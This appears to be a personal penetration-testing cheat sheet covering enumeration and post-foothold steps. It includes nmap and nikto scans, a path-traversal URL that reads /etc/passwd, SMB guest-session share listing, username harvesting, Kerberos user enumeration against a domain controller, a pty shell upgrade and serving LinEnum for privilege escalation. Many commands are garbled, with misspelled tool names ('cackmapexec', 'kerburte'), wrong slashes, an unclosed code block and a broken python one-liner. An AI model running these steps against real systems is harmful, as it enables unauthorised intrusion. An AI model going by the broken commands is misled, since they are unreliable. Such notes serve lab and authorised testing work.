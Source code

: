 # Guidelines and Aproaches

## Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

## Enumeration

First comes nmap.
```
# nmap -p- -T4 -sV -sC -A -oN <ip address.txt> [ -oA <ip address> ]  <ip address>
```

### HTTP
if there is a web server open then you can use the NICTO web vulnerability scanner. 
```
# nikto -h http:\\<<ip address>
```
use browser to check for LFI (Local File Inclusion) if you can view the data of any special files.
```
http://<ip address>/../../../../etc/password
```
another tack is to user DIRBUSTER with medium word list

Gobuster 3.X.X is newer and has a lot more features it can be used with the following:
```
gobuster dir -u http://<ip address> -w /location/of/wordlist.txt
```
### SMB

```
# nmap --script smb-vuln* -p 445 <ip address>
```

TODO: describe
```
# cackmapexec smb \\<ip address>
# cackmapexec smb \\<ip address> --shares
```

use -N to suppress password prompt. Using the 'invalid' user with a <cr> password will connect with a 'guest' session.
```
# smbclient -U invalid –L \\<ip address>
```

If nothing works, use smbmap as above which will show permissions on any shares
```
# smbmap -U invalid –L \\<ip address>
```

If you can mount profiles$ and there are any intersting user then you can collect them in a  file of usernames 
```
# smbclient -U <username>%invalid –L \\<ip address> -c ls | awk { print $1 } > users.txt
```

If this is a Domain Controller then use a kerberos preauthentication hack
```
$ kerburte userenum -dc <ip address> -d <domain name> users.txt
``

## after foothold

To provides a moderately stable shell look for python or python3
```
python3 -c "import pty;pty.spawn('bin/bash')
```

The goal is to get user access, so getting access is best
Download [LinEnum.sh](https://github.com/rebootuser/LinEnum) to machine.  One way is to use a python server
```
$ sudo python -m Simple/HttpServer 80
```

